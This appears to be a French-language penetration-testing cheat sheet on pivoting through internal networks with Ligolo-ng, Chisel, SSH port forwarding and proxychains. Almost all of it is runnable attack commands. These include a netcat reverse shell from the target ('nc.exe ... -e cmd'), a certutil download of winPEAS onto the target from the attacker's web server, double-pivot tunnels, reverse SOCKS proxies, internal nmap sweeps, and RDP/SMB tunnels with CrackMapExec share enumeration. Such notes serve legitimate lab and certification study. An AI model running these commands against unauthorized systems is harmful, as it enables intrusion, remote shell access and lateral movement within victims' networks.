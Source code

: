 https://youtu.be/DM1B8S80EvQ
https://github.com/nicocha30/ligolo-ng
![[Pasted image 20250326151824.png]]
## **1. Ligolo: Pivoting avec un Proxy Tunnel**

### **1.1 Comment initialiser Ligolo**

Sur Kali :

```bash
sudo ip tuntap add user felix mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

Sur la machine cible (Windows) :

```powershell
.\agent.exe -connect <IP-KALI>:11601 -ignore-cert
```

Retour sur Kali (Ligolo session) :

```bash
session
1
start
```

Ajouter la route vers le sous-réseau cible :

```bash
sudo ip route add 10.10.14.0/24 dev ligolo
```

---

## **2. Reverse Shell depuis un Réseau Interne**

### **2.1 Comment configurer le Listener via Ligolo**

Ajouter un listener pour forward un shell :

```bash
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
```

Vérifier le listener :

```bash
listener_list
```

Lancer Netcat sur Kali pour capter le shell :

```bash
rlwrap nc -nlvp 4444
```

### **2.2 Comment établir le Reverse Shell depuis la cible**

Si l'IP interne de la machine cible est `10.10.120.131` :

```powershell
nc.exe 10.10.120.131 1234 -e cmd
```

---

## **3. Transfert de Fichier depuis le Réseau Interne**

### **3.1 Comment configurer le transfert avec Ligolo**

Ajouter un listener pour forward le trafic HTTP :

```bash
listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:80
```

Démarrer un serveur web Python :

```bash
python -m http.server 80
```

### **3.2 Comment récupérer le fichier sur la cible**

```powershell
certutil -urlcache -f http://<MS01>:1235/winpeas.exe winpeas.exe
```

---

## **4. Double Pivot avec Ligolo**

https://youtu.be/LiaBVuz2B4o
### **4.1 Comment initialiser un deuxième tunnel Ligolo**

Sur Kali :

```bash
sudo ip tuntap add user felix mode tun ligolo1
sudo ip link set ligolo1 up
```

Dans la session Ligolo :

```bash
listener_add --addr 0.0.0.0:9000 --to 127.0.0.1:9001 -tcp
listener_list
```

Sur la machine intermédiaire (Ubuntu contrôlé) :

```bash
./agent --connect 172.16.0.2:9001 -ignore-cert
```

Dans Ligolo :

```bash
session
2
ifconfig
```

Sur Kali :

```bash
sudo ip route add 10.10.10.0/24 dev ligolo1
```

Dans Ligolo :

```bash
start --tun ligolo1
```

---

## **5. Accéder à un Service Local sur une Machine Cible**

### **5.1 Avec SSH (Si accès SSH disponible)**

Forwarder le port 8000 du serveur cible vers le port 9999 en local :

```bash
ssh -L 9999:127.0.0.1:8000 user@192.168.212.103
```

### **5.2 Avec Chisel (Si pas d’accès SSH)**

Sur Kali (serveur Chisel) :

```bash
chisel server --reverse --port 9999
```

Sur la machine cible :

```bash
chisel client YOUR_IP:9999 R:9999:127.0.0.1:8000
```

Accéder au service :

```
http://127.0.0.1:9999
```

---

## **6. Escalade avec Proxies Socks et SSH**

### **6.1 Avec SSH (Si accès SSH disponible)**

Sur Kali :

```bash
ssh -D 1080 -q -C -N user@192.168.1.10
```

Configurer proxychains :

```ini
# /etc/proxychains.conf
strict_chain
proxy_dns
tcp_read_time_out 15000
tcp_connect_time_out 8000
[ProxyList]
socks5 127.0.0.1 1080
```

Tester avec :

```bash
proxychains nmap -sT -Pn -n 10.10.10.0/24
```

### **6.2 Avec Chisel**

Démarrer le serveur :

```bash
chisel server --reverse --port 9999
```

Démarrer le client sur la cible :

```bash
chisel client YOUR_IP:9999 R:1080:socks
```

Configurer proxychains et tester avec :

```bash
proxychains nmap -sT -Pn -n 10.10.10.0/24
```

---

## **7. Détection de Services & Exploration Interne**

### **7.1 Scanner un sous-réseau découvert**

```bash
nmap -sT -Pn -n --open 10.10.10.0/24
```

### **7.2 Vérifier les ports ouverts sur une machine cible**

```bash
nmap -sT -Pn -p- 10.10.10.5
```

### **7.3 Vérifier le routage des sous-réseaux accessibles**

```bash
ip route
```

---

## **8. Exploitation Avancée : RDP et SMB Pivoting**

### **8.1 Tunnel RDP via Chisel**

Sur Kali :

```bash
chisel server --reverse --port 9999
```

Sur la cible :

```bash
chisel client YOUR_IP:9999 R:3389:127.0.0.1:3389
```

Se connecter en RDP depuis Kali :

```bash
rdesktop 127.0.0.1:3389 -u user -p password
```

### **8.2 Tunnel SMB pour exploration avec CrackMapExec**

Sur Kali :

```bash
chisel server --reverse --port 9999
```

Sur la cible :

```bash
chisel client YOUR_IP:9999 R:445:127.0.0.1:445
```

Lister les partages SMB :

```bash
smbclient -L 127.0.0.1 -U user%password
```

Explorer les partages avec CrackMapExec :

```bash
crackmapexec smb 127.0.0.1 -u user -p password --shares
```